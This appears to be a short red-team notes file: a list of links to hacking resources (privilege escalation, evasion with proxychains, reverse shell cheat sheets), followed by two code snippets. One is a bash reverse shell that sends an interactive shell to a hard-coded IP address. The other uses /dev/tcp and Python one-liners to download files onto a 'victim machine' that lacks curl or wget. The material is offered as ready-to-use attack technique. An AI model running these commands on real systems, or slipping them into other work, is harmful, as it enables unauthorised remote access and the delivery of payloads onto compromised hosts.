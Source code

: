 # Security - Red Team

- https://null-byte.wonderhowto.com/how-to/hack-like-pro-evade-detection-using-proxychains-0154619/
- https://www.hackwhackandsmack.com/?p=1021
- https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
- https://github.com/danielmiessler/SecLists
- https://redteamjournal.com/2017/02/the-2017-red-teamers-bookshelf/
- https://andreafortuna.org/reverse-shells-with-netcat-some-use-cases-cc3aba835656
- http://seclist.us/pyjenkinstoolkit-is-a-jenkins-penetration-test-toolkit.html
- https://pen-testing.sans.org/blog/2017/02/02/pen-test-poster-white-board-bash-bashs-built-in-netcat-client
- https://www.pentesterlab.com/exercises/play_xxe/course
- https://www.hackthissite.org/
- https://securityreliks.wordpress.com/2010/08/20/devtcp-as-a-weapon/
- http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- https://tools.kali.org/information-gathering/enum4linux


### Reverse Shell
```shell
# Reverse shell with your attacking box is listening on port 444
/bin/bash -i > /dev/tcp/64.228.93.35/444 0<&1 2>&1 
```

### Download Files
You may not always have `curl` or `wget` available to download files on the victim machine.

```shell
exec 3<>/dev/tcp/ahermosilla.com/80
echo -e "GET / HTTP/1.1\r\nHost: ahermosilla.com\r\nConnection: close\r\n\r\n" >&3
cat <&3

# Python 3.x
python -c 'import urllib.request; urllib.request.urlopen("http://example.com/").read()'

# Python 2.7
python -c 'import urllib2; print urllib2.urlopen("http://example.com/").read()'
```
- https://stackoverflow.com/questions/645312/what-is-the-quickest-way-to-http-get-in-python
- http://xmodulo.com/tcp-udp-socket-bash-shell.html